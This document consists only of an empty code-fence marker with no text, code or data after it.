```
